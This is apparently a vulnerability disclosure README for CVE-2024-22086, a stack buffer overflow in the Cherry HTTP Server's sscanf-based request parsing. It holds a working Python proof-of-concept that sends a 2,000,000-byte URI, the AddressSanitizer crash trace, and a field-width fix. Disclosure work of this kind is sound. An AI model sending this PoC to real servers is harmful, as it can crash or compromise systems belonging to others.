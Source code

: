 # CVE-2024-22086

I discovered a remote stack buffer overflow vulnerability in the Cherry HTTP Server through commit 4b877df in handle_request() at http.c, line 54:
```
sscanf(buf, "%s %s %s", method, uri, version); // for example, GET / HTTP/1.1
```

Any project that utilizes cherry is vulnerable to remote code execution.  I have outlined the reproduction steps below, and offer some mitigations that can be implemented to prevent a buffer overflow.

### Makefile Modifications

The following modifications were made to the Makefile to compile cherry with address sanitizer and debug symbols. The purpose of this is to track and verify the location of the stack buffer overflow vulnerability:

```
CC=gcc
CFLAGS= -Wall -Wextra -DLOG_USE_COLOR -fsanitize=address -g

.PHONY: clean

cherry: server.c log.c rio.c http.c epoll.c task.c utils.c
	$(CC) $^ -o $@ $(CFLAGS)

clean:
	rm cherry a.out
	
```

### Compiling Cherry

```
$ make
```

### Proof of Concept Python3 Script

Save the following script to a file named poc.py. The script will send an HTTP request with a malformed URI (2,000,000 bytes long) to cherry and wait for a response:

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 3333))
sock.send(b"GET /"+b"C"*2000000+b"HTTP/1.1\r\nHost:localhost:3333\r\n\r\n")
response = sock.recv(4096)
sock.close()

```

### Starting Cherry

```
./cherry
```

### Executing our Python3 Script

```
# python3 poc.py
```

### Address Sanitizer Output

The following output was produced by address sanitizer: 

```
==3024==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7fcf196002f0 at pc 0x7fcf1b087791 bp 0x7ffc4e0bf090 sp 0x7ffc4e0be850
WRITE of size 8188 at 0x7fcf196002f0 thread T0
    #0 0x7fcf1b087790 in scanf_common ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_format.inc:342
    #1 0x7fcf1b0883fe in __interceptor___isoc99_vsscanf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1612
    #2 0x7fcf1b0884ee in __interceptor___isoc99_sscanf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1635
    #3 0x55a0ffa0561d in handle_request /home/kali/projects/fuzzing/cherry/src/http.c:54
    #4 0x55a0ffa072c7 in request_handler /home/kali/projects/fuzzing/cherry/src/utils.c:57
    #5 0x55a0ffa03908 in main /home/kali/projects/fuzzing/cherry/src/server.c:69
    #6 0x7fcf1ae456c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #7 0x7fcf1ae45784 in __libc_start_main_impl ../csu/libc-start.c:360
    #8 0x55a0ffa03450 in _start (/home/kali/projects/fuzzing/cherry/src/cherry+0x4450) (BuildId: f07795ccbe440d35fcd7b1ea59114aa3d9bc6d55)

Address 0x7fcf196002f0 is located in stack of thread T0 at offset 752 in frame
    #0 0x55a0ffa05370 in handle_request /home/kali/projects/fuzzing/cherry/src/http.c:35

  This frame has 7 object(s):
    [32, 176) 'sbuf' (line 41)
    [240, 752) 'uri' (line 37)
    [816, 1328) 'version' (line 37) <== Memory access at offset 752 partially underflows this variable
    [1392, 1904) 'filename' (line 40) <== Memory access at offset 752 partially underflows this variable
    [1968, 10160) 'method' (line 37) <== Memory access at offset 752 partially underflows this variable
    [10416, 18608) 'buf' (line 38)
    [18864, 27072) 'rio' (line 36)
HINT: this may be a false positive if your program uses some custom stack unwind mechanism, swapcontext or vfork
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_format.inc:342 in scanf_common
Shadow bytes around the buggy address:
  0x7fcf19600000: f1 f1 f1 f1 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600080: 00 00 00 00 00 00 f2 f2 f2 f2 f2 f2 f2 f2 00 00
  0x7fcf19600100: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600200: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x7fcf19600280: 00 00 00 00 00 00 00 00 00 00 00 00 00 00[f2]f2
  0x7fcf19600300: f2 f2 f2 f2 f2 f2 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600380: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600400: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600480: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600500: 00 00 00 00 00 00 f2 f2 f2 f2 f2 f2 f2 f2 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==3024==ABORTING


```

From the output we can verify that a WRITE of size 8188 at occurred in thread T0.

### Mitigation

The issue with the code is that it doesn't limit the number of characters read into each string. This can cause a buffer overflow if the input strings are longer than the buffers allocated for method, uri, and version. To fix this, you need to specify maximum field widths in the sscanf format string. These widths should be at least one less than the size of the buffers (to leave space for the null terminator):

Buffer overflow vulnerability:

```
sscanf(buf, "%s %s %s", method, uri, version); // for example, GET / HTTP/1.1 
```

Modified code preventing a buffer overflow:
```
sscanf(buf, "%5000s %300s %300s", method, uri, version); // for example, GET / HTTP/1.1 
```

### References

* https://cwe.mitre.org/data/definitions/121.html
* https://owasp.org/www-community/vulnerabilities/Buffer_Overflow
* https://github.com/google/sanitizers/wiki/AddressSanitizer

